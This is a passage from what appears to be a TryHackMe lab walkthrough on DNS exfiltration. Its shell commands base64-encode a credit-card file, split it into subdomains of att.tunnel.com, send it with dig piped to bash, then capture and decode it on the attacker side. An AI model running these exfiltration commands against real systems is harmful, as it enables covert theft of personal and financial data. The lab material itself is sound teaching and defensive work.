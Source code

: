 - Splitting the content into a single DNS request

```shell
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com
	    
```

Next, from the victim2 machine, we send the base64 data as a subdomain name with considering the DNS limitation as follows:

- Send the Encoded data via the dig command

```shell
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
	    
```

With some adjustments to the single DNS request, we created and added the dig command to send it over the DNS,  and finally, we passed it to the bash to be executed. If we check the  Attacker's tcpdump terminal, we should receive the data we sent from victim2.

- Receiving the Data Using tcpdump

```shell
thm@attacker:~$ sudo tcpdump -i eth0 udp port 53 -v
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
22:14:00.287440 IP (tos 0x0, ttl 64, id 60579, offset 0, flags [none], proto UDP (17), length 104)
    172.20.0.1.56092 > attacker.domain: 19543% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76)
22:14:00.288208 IP (tos 0x0, ttl 64, id 60580, offset 0, flags [none], proto UDP (17), length 235)
    172.20.0.1.36680 > attacker.domain: 23460% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (207)
22:14:00.289643 IP (tos 0x0, ttl 64, id 48564, offset 0, flags [DF], proto UDP (17), length 69)
    attacker.52693 > 172.20.0.1.domain: 3567+ PTR? 1.0.20.172.in-addr.arpa. (41)
22:14:00.289941 IP (tos 0x0, ttl 64, id 60581, offset 0, flags [DF], proto UDP (17), length 123)
    172.20.0.1.domain > attacker.52693: 3567 NXDomain* 0/1/0 (95)
	    
```

Once our DNS request is received, we can stop the tcpdump tool and clean the received data by removing unwanted strings, and finally decode back the data using Base64 as follows,

- Cleaning and Restoring the Receiving Data

```shell
thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
Name: THM-user
Address: 1234 Internet, THM
Credit Card: 1234-1234-1234-1234
Expire: 05/05/2022
Code: 1337
	    
```
